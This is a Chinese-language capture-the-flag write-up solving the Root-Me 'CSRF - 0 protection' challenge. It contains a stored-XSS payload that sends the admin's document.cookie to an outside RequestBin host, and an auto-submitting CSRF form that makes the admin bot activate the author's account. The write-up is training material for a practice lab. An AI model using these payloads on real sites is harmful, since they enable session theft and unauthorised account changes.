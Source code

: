 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-client/csrf-0-protection/)]

------

已经很直白提示是 CSRF 题型。

点击 Register 随意注册一个账号，如 `exp`，密码 `123456` 。

然后点击 Login 登录，登录后点击 Profile 切到个人档案，发现有 4 个选项卡，其中：

- Contact ： 可以发送一条消息给 admin 留言， 有个 robot-admin 会定时轮询查看
- Profile ： 激活当前账号，但是非 admin 无法操作
- Private ： 查看账号激活后信息，这就是最终目标
- Logout ： 登出，没用

很明显 Contact 就是注入点，且通过抓取 HTTP 请求发现， Email 虽然会校验格式，但是可以不填，而且也不会作为 HTTP 请求的参数发送出去，因此注入点就是 Comment 输入框。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/01.png)

至此，解此题有两种思路：

- ① 使用【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】的思路把 admin 的 Cookie 发到我们的服务器，窃取其 Cookie 后再激活
- ② 直接构造 CSRF 伪装 admin 的身份进行激活

首先试试第 ① 种思路，在 Contact 选项卡的 Comment 输入框构造一个 payloads 提交：

`<srcipt>document.write("<img src='${HOST}?tk='"+document.cookie+" />");</srcipt>`

（其中 `${HOST}` 是使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器，详见【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】，不再赘述）

提交成功后会提示 `Your message has been posted. The administrator will contact you later.` 。

等了一会， [RequestBin](https://requestbin.fullcontact.com/) 服务器收到了消息，说明我们注入 XSS 成功，但是消息中并没有 admin 的 Cookie ，很可能是 Cookie 启用了 HttpOnly 的缘故，因此第 ① 种思路不可行，改用第 ② 种思路，即 CSRF。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/02.png)

要执行 CSRF ，即需要令 admin 在读取 Comment 的时候触发一个激活账号的 POST，因此需要先获得这个 POST 请求的格式，再构造我们期望的内容。

切到 Profile 选项卡，发现 Status 是不可用的，并且点击 submit 后提示 `You're not an admin!`，不过不影响我们捕获 POST 请求。

打开浏览器开发者工具，切到 Elements ，把 Status 的 `disabled` 属性删掉。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/03.png)

打开 Burp Suite -> Proxy -> HTTP history ，然后点击页面的 submit 按钮，即可捕获到激活账号的 POST 请求。

利用这个 POST 请求可以构造 payloads 如下，将其拷贝到 Contact 选项卡的 Comment 输入框提交即可：

```html
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp">  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on">  <!-- 激活动作 -->
</form>
<script>document.csrf.submit()</script>
```

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
